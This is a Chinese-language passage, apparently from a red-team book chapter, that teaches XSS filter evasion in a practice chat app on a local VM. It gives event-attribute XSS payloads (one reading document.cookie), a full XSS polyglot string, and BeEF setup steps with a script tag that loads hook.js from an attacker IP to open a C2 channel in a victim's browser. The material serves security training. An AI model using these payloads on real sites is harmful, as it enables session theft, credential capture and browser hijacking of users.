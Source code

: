 #### 经过混淆的 XSS payload 和 XSS Polyglot
现在，标准的 XSS payload 通常仍然有效，但我们确实会遇到一些应用程序过滤字符或应用程序有 WAF 防护的情况。有两个很好的资源可以帮助你开始制作混淆的 XSS payload 攻击：

* https://github.com/foospidy/payloads/tree/master/other/xss 
* https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet

有时在行动期间，你可能会遇到简单的 XSS 过滤器，它们会查找像 `<script>` 这样的字符串。混淆 XSS payload 是一种选择，但一定要注意并非所有 JavaScript payload 都需要打开和关闭 `<script>` 标签。有一些 HTML 事件属性在触发时执行 JavaScript（ https://www.w3schools.com/tags/ref_eventattributes.asp ）。这意味着任何专门针对 Script 标签的规则都是无效的。例如，下列这些执行 JavaScript 的 HTML 事件属性就不使用 `<script>` 标签：
* `<b onmouseover=alert('XSS')>Click Me!</b>`
* `<svg onload=alert(1)>`
* `<body onload="alert('XSS')">`
* `<img src="http://test.cyberspacekittens.com" onerror=alert(document.cookie);>`

你可以通过访问应用程序来尝试 CSK 应用程序中的每个 HTML 实体攻击：http://chat:3000/ （记得修改 `/etc/host` 文件以指向与虚拟机 IP 的聊天）。进入后，注册一个帐户，登录应用程序，然后转到聊天功能（ http://chat:3000/chatchannel/1 ）。尝试不同的实体攻击和经过混淆的 payload。

![](img/chapter_3/3-6.png)

XSS 的其他优秀资源：
* 第一个是由 @jackmasa 制作的思维导图。这是一个很棒的文档，它根据输入点的位置来分解不同的 XSS payload。虽然不再在 JackMasa GitHub 页面上，但是这里有一个[副本](http://bit.ly/2qvnLEq)。

* 另一个很好的资源，讨论哪些浏览器容易受到哪些 XSS payload 的影响：https://html5sec.org/ 。

![](img/chapter_3/3-7.png)

如你所见，尝试在应用程序上查找每一个 XSS 有时是很烦人的。这是因为易受攻击的参数受到代码功能、不同类型的 HTML 标记、应用程序类型和不同类型的过滤的影响。试图找到初始 XSS 的弹出窗口可能需要很长时间。如果我们可以尝试将多个 payload 链接到单个请求中，该怎么办？

最后一种类型的 payload 称为 [Polyglot](http://bit.ly/2GXxqxH)。Polyglot payload 采用许多不同类型的 payload 和混淆技术，并将它们编译成一次攻击。这适用于想使用自动脚本查找 XSS、时间有限的的漏洞赏金项目，或者仅仅想要快速发现输入验证存在哪些问题等情况。

因此，我们可以像（ http://bit.ly/2GXxqxH ）这样构建一个 Polyglot，而不是普通的 `<script>alert(1)</script>`：
```
/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

如果你看一下上面的 payload,此攻击试图不使用尖括号，点和斜线的传统攻击代码；执行 onclick XSS；关闭多个标签；最后尝试一个 onload XSS。这些类型的攻击使 Polyglots 在识别 XSS 方面非常有效和高效。你可以在此处阅读有关这些 Polyglot XSS 的更多信息：https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot 。

如果你想测试和使用不同的 polyglots，可以从易受攻击的 XSS 页面（ http://chat:3000/xss ）或整个聊天应用程序开始。

**BeEF**

浏览器漏洞利用框架（ http://beefproject.com/ ）或简称 BeEF 将 XSS 攻击提升到另一个层次。此工具将 JavaScript payload 注入受害者的浏览器，该浏览器会感染用户的系统。这会在受害者的浏览器上创建一个 C2通道，用于 JavaScript 后期利用。

对红队来说，BeEF 是一个很好的工具，可用于入侵活动，跟踪用户，捕获凭据，执行点击劫持，使用 Tabna 进行攻击等等。如果不在攻击期间使用，BeEF 也是一个很好的工具，可以展示 XSS 漏洞的强大功能。这也有助于更复杂的攻击，我们将在后面的 Blind XSS 小节下讨论。

BeEF 分为两部分：一部分是服务器，另一部分是攻击 payload。要启动服务器：

在你的攻击者 Kali 主机上启动 BeEF
* 打开终端
    * beef-xss
* 使用 beef：beef
* 查看 http://127.0.0.1:3000/hook.js
* 完整 payload 文件：
    * `<script src="http://<Your IP>:3000/hook.js"></script>`
